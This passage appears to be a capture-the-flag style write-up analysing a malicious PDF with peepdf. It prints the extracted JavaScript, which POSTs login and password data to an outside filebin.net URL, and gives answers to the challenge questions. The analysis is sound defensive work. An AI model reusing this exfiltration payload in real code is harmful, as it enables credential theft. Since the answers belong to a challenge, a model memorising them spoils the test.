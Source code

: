 I thought `pdf-parser` & `pdfid` didn't pickup Javascript objects/code.

![think](https://media.giphy.com/media/hv53DaYcXWe3nRbR1A/giphy.gif)

Lets use another tool called [peepdf](https://eternal-todo.com/tools/peepdf-pdf-analysis-tool).

Executing it with `-i` flag, we get into an interactive mode & `-f`  to ignore any errors.

![image](https://user-images.githubusercontent.com/58165365/248580761-1311388a-009d-4f8e-9006-b7ea10a37e3f.png)

From the screenshot above, we now see 2 objects with JS code.

If we use the `js_code` command with the object id containing the JS, we get the Original and Next Stage code.

![image](https://user-images.githubusercontent.com/58165365/248581562-2c90a2db-abfc-4be4-9d88-c7e8152717b3.png)


```javascript
var url = "https://filebin.net/0flqlz0hiz6o4l32/D0csz1p";
var xhr = new XMLHttpRequest();
xhr.open("POST", url);
xhr.setRequestHeader("Content-Type", "application/octet-stream");
xhr.setRequestHeader("login", "");
xhr.setRequestHeader("password", "");
xhr.onreadystatechange = function() {
    if (xhr.readyState === 4) {
        console.log(xhr.status);
        console.log(xhr.responseText);
    }
};
var data = '{"login":"","password":""}';
xhr.send(data);
```

This looks like it is making a HTTP POST request to `hxxps://filebin.net/0flqlz0hiz6o4l32/D0csz1p` using the ***XMLHttpRequest*** object. It also looks like it's sending JSON data with empty login and password fields. The response status and response text are being logged to the console.

From the above we get answers to questions 4-6 

`filebin.net`

## 5. Which HTTP method would it have used to interact with this service?

`POST`

## 6. What is the name of the obfuscation used for the Javascript payload?

`eval`

## 7. Which tool would have been used for creating the persistence mechanism?
